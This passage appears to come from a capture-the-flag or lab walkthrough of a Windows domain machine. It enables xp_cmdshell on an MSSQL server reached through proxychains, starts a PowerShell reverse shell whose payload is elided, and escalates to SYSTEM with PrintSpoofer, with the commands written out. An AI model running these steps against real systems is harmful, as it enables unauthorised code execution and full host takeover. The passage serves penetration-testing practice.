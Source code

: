 With this ticket and the proxy connection we can use mssqclient to access the database:
```sh
proxychains mssqlclient.py dc.sendai.vl -k
```

Since we are the database administrator we can enable xp_cmd to get command execution as the sqlsvc user:
```sh
sp_configure 'show advanced options', '1'
sp_configure 'xp_cmdshell', '1'
RECONFIGURE
EXEC master..xp_cmdshell 'whoami'
```

From here there are tons of different ways to get a shell, I used a simple powershell reverse shell from revshells.com:
```sh
EXEC master..xp_cmdshell 'powershell -e <encoded blob>'
```

## Escalating to SYSTEM

Since we are the sqlsvc account we usually have impersonate privileges, we can confirm this with:
```sh
whoami /priv
```

There are multiple ways to get to system from here like Printspoofer or Sweetpotato, I used Printspoofer:
```sh
./spoof.exe -i -c "powershell -e <encoded blob>
```